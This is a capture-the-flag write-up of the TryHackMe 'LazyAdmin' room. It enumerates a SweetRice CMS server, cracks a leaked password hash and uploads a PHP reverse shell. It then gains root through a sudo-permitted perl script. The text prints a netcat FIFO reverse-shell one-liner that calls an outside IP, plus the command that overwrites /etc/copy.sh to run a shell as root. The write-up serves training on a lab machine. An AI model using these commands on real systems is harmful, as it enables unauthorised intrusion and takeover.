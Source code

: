 # TryHackMe | LazyAdmin

[LazyAdmin](https://tryhackme.com/room/lazyadmin)

## Deploy the Machine

The instructions are pretty clear for this one. SMASH THAT GREEN BUTTON!!!

## What is the user flag?

First, we will enumerate our target.

```bash
❯ nmap -sV 10.10.39.105
Starting Nmap 7.92 ( https://nmap.org ) at 2021-09-12 11:35 IST
Nmap scan report for 10.10.39.105
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 20.10 seconds
```

As we can see, two ports are open on our target machine, port 22 for ssh and port 80 with http. Let's see what we have on port 80.

![Apache](/images/apache2.png)

It is an Apache2 Ubuntu Default Page. Now we use gobuster to enumerate any directories this server might have.

```bash
❯ gobuster dir -u 10.10.39.105 -w /usr/share/wordlists/dirb/common.txt -x php,txt,html -q
/.hta                 (Status: 403) [Size: 277]
/.hta.php             (Status: 403) [Size: 277]
/.hta.txt             (Status: 403) [Size: 277]
/.hta.html            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd.php        (Status: 403) [Size: 277]
/.htaccess.php        (Status: 403) [Size: 277]
/.htpasswd.txt        (Status: 403) [Size: 277]
/.htaccess.txt        (Status: 403) [Size: 277]
/.htpasswd.html       (Status: 403) [Size: 277]
/.htaccess.html       (Status: 403) [Size: 277]
/content              (Status: 301) [Size: 314] [--> http://10.10.39.105/content/]
/index.html           (Status: 200) [Size: 11321]
/index.html           (Status: 200) [Size: 11321]
/server-status        (Status: 403) [Size: 277]
```

We have found a /content subdirectory.

![Content](/images/sweetrice.png)

Let's enumerate it too.

```bash
❯ gobuster dir -u 10.10.39.105/content -w /usr/share/wordlists/dirb/common.txt -x php,txt,html -q
/.hta                 (Status: 403) [Size: 277]
/.hta.php             (Status: 403) [Size: 277]
/.hta.txt             (Status: 403) [Size: 277]
/.hta.html            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess.txt        (Status: 403) [Size: 277]
/.htpasswd.php        (Status: 403) [Size: 277]
/.htaccess.html       (Status: 403) [Size: 277]
/.htpasswd.txt        (Status: 403) [Size: 277]
/.htaccess.php        (Status: 403) [Size: 277]
/.htpasswd.html       (Status: 403) [Size: 277]
/_themes              (Status: 301) [Size: 322] [--> http://10.10.39.105/content/_themes/]
/as                   (Status: 301) [Size: 317] [--> http://10.10.39.105/content/as/]
/attachment           (Status: 301) [Size: 325] [--> http://10.10.39.105/content/attachment/]
/changelog.txt        (Status: 200) [Size: 18013]
/images               (Status: 301) [Size: 321] [--> http://10.10.39.105/content/images/]
/inc                  (Status: 301) [Size: 318] [--> http://10.10.39.105/content/inc/]
/index.php            (Status: 200) [Size: 2198]
/index.php            (Status: 200) [Size: 2198]
/js                   (Status: 301) [Size: 317] [--> http://10.10.39.105/content/js/]
/license.txt          (Status: 200) [Size: 15410]
```

We have found some interesting files. Let's check the changelog.txt.

```
#############################################
SweetRice - Simple Website Management System
Version 1.5.0
Author:Hiler Liu steelcal@gmail.com
Home page:http://www.basic-cms.org/
#############################################
New web - new SweetRice for both PC & mobile website creator,easy way to follow the new web world.

========================================
```

We know now that the target machine is using SweetRice CMS V1.5.0. Let's search [Exploit-DB](https://www.exploit-db.com/) for a vulnerability we can exploit.

We find a [Backup Disclosure](https://www.exploit-db.com/exploits/40718) vulnerability. Let's use it to exploit this CMS.

![MySql](/images/mysql_backup.png)

We download and open the mysql_bakup_20191129023059-1.5.1.sql file.

We now have a username and a password hash. Let's crack the hash using hashcat.

```bash
❯ hashcat -a 0 -m 0 lazyhash.txt /usr/share/wordlists/rockyou.txt

42f749ade7f9e195bf475f37a44cafcb:[REDACTED]
```

![Login](/images/login.png)

So we now have both the username and the password. Let's log into the admin panel.

![Admin Panel](/images/admin_panel.png)

We now have to set the website status to Running so that we can access the site.

![Website](/images/website.png)

There's nothing interesting on the site itself. Let's look if there's another vulnerability we can exploit.

We have found an [Arbitrary File Upload](https://www.exploit-db.com/exploits/40716) vulnurablity. We can exploit it to upload a reverse shell script and gain access to the target machine.

We're going to use [pentestmonkey's reverse ssh php script](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php).

```bash

+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|  _________                      __ __________.__                  |
| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
| \_____  \ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
| /        \     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
|        \/             \/     \/            \/        \/    \/     |
|    > SweetRice 1.5.1 Unrestricted File Upload                     |
|    > Script Cod3r : Ehsan Hosseini                                |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+

[+] Sending User&Pass...
[+] Login Succssfully...
[+] File Uploaded...
[+] URL : http://10.10.39.105/content/attachment/shell.php5
```

p.s : if it doesn't seem to work, try to hardcode the values in the code.

![Shell](/images/file_upload.png)

Now we start a netcat listener on the specified port to connect to the reverse shell.

```bash
❯ nc -nlvp 1234
Connection from 10.10.39.105:44046
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 09:34:23 up 33 min,  0 users,  load average: 0.00, 0.01, 0.24
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Annddddd we're in.

Let's navigate the file system to find the user.txt.

```bash
$ cd /home
$ ls
itguy
$ cd itguy
$ ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
$ cat user.txt
[DATA EXPUNGED]
```

## What is the root flag?

We now have to escalate our priviledge and gain root access on this machine.

Let's check what commands we can run.

```bash
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

We can run the perl file backup.pl. Let's check what's in it.

```bash
$ cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

The backup.pl script executes /etc/copy.sh. What's in there i wonder.

```bash
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f

```

We can run this file as root, so if we create a reverse shell using this file, we can get root access to the target machine from our host macine.

We already have a reverse shell script on this machine, so why not reuse it.

```bash
$ echo 'php /var/www/html/content/attachment/shell.php5' > /etc/copy.sh
```

Now we have to run backup.pl as root.

```bash
$ sudo /usr/bin/perl /home/itguy/backup.pl
$ Successfully opened reverse shell to 10.17.15.106:1234
```

We now have root access to this machine. All we have to do is to locate root.txt (it is usually found in /root).

```bash
❯ nc -nlvp 1234
Connection from 10.10.39.105:44052
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 09:46:00 up 44 min,  0 users,  load average: 0,00, 0,00, 0,09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
[DATA EXPUNGED]

```
